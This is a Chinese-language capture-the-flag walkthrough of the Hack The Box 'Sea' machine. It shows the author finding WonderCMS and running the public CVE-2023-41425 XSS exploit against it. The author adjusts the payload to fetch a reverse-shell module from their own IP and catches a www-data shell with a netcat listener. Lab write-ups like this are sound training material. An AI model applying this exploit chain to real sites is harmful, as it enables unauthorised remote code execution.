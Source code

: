 根据Copyright的 `turboblack` 以及这个bike主题，谷歌一下 `turboblack bike theme` 发现**WonderCMS**。

## Initial Access

根据上面的信息，谷歌 `"wondercms" theme "bike" 3.2 exploit` 等没搜到什么漏洞，最终尝试最宽松的搜索 `wondercms exploit` 发现github的这个：[CVE-2023-41425](https://github.com/prodigiousMind/CVE-2023-41425)。里面说 `Wonder CMS v.3.2.0 thru v.3.4.2`，但是也不知道之前发现的版本信息3.2.0是指bike主题还是WonderCMS本身……姑且看看这个exp的内容。

### PoC (CVE-2023-41425)

试着跑了一下上面github中的exp脚本：`python exploit.py http://sea.htb/ 10.10.14.3 1234`，发送payload后没有反应……本身也没理解脚本说的第一个参数 `URL: where WonderCMS is installed (no need to know the password)`，还想着为什么提到不用密码？还是得仔细看看脚本。

注意到payload生成的部分有个 `loginURL` 字符串被替换了，但是我之前第一个参数没有 `loginURL`。于是试着访问了一下 `http://sea.htb/loginURL`  
竟然出现了登陆界面：
![[HTB-Sea-loginURL.png]]

原来github说的不用密码是这个意思啊……那么我的第一个参数应该用这个URL。

还有个问题，看生成的 `xss.js` 中似乎在加载一个反弹shell（安装zip模块），不过靶机应该无法直接访问github，所以需要将 `urlRev` 改为自己的IP（端口建议直接8000）。

生成payload发送：
![[HTB-Sea-payload.png]]

收到响应，应该是管理员点击了表单中的网址，然后获取了我们本地的 `xss.js`，但是反弹shell没有反应。就是 `xss.js` 的内容有问题？
![[HTB-Sea-payload2.png]]

注意到几个URL的拼接用了 `urlWithoutLogBase`，其赋值是用的 `new URL(urlWithoutLog).pathname`，猜测是用相对路径进行访问，即当没有指定协议和主机名时默认使用当前页面的主机名和协议（在JavaScript中的话）。但是用浏览器的console跑了一下，显示 `urlWithoutLogBase` 是一个斜杠，那么js脚本中的URL拼接就会有点问题。比如 `urlWithoutLogBase+"/?installModule` 就变成 `//?installModule`。

![[HTB-Sea-debug-urlWithoutLogBase.png]]

参照[CVE-2023-41425](https://github.com/prodigiousMind/CVE-2023-41425)图中的访问log，其URL路径本身是 `/wondercms/loginURL`，对应到 `urlWithoutLogBase` 应该是 `/wondercms`，针对我们这次目标的情况，估计是可以直接让这个变量为空，即：`var urlWithoutLogBase = "";`。  
再次发送payload，成功获取反弹shell：
```
└─$ nc -lvnp 1234
listening on [any] 1234 ...
<SNIP>
$ id                                                                                  
uid=33(www-data) gid=33(www-data) groups=33(www-data)                                 
$ ip a                                                                                
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000                                                                                 
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00                             
    inet 127.0.0.1/8 scope host lo                                                    
       valid_lft forever preferred_lft forever                                        
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000                                                                               
    link/ether 00:50:56:b9:6a:55 brd ff:ff:ff:ff:ff:ff                                
    inet 10.10.11.28/23 brd 10.10.11.255 scope global eth0                            
       valid_lft forever preferred_lft forever 
```
